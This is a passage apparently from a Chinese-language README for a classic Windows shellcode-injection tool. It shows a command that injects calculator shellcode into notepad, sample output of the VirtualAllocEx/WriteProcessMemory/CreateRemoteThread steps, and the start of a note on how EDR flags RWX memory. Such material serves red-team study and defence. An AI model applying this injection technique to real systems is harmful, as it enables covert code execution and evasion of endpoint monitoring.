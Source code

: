 ```bash
# 示例：启动 notepad 并注入
shellcode_injection.exe "C:\Windows\System32\notepad.exe" calc_shellcode.bin
```

### 输出示例

**注入到现有进程**:
```
===================================================================
Classic Shellcode Injection
Based on: plackyhacker/Shellcode-Injection-Techniques
===================================================================

[+] Debug 权限已获取

===================================================================
Classic Shellcode Injection - 注入到现有进程
===================================================================

[*] 目标 PID: 1234
[*] Shellcode 文件: calc_shellcode.bin
[+] Shellcode 已加载: 272 bytes
[+] 进程已打开
[+] 架构兼容
[*] Shellcode 大小: 272 bytes

[*] 步骤 1: 在目标进程分配内存...
[+] VirtualAllocEx() 成功，地址: 0x000002A4B2F0000

[*] 步骤 2: 写入 shellcode...
[+] WriteProcessMemory() 成功，写入: 272 bytes

[*] 步骤 3: 创建远程线程执行 shellcode...
[+] CreateRemoteThread() 成功，线程句柄: 0x000000000000042C
[*] 等待 shellcode 执行...
[+] Shellcode 执行完成，退出码: 0x0

===================================================================
[+] Shellcode Injection 完成！
===================================================================
```

**如果注入的是 calc.exe shellcode，此时会看到计算器启动！**

## 技术限制

### 1. RWX 内存高度可疑

**问题**: `PAGE_EXECUTE_READWRITE` 是 EDR 监控重点

```c
VirtualAllocEx(..., PAGE_EXECUTE_READWRITE);  // ← 告警！
```
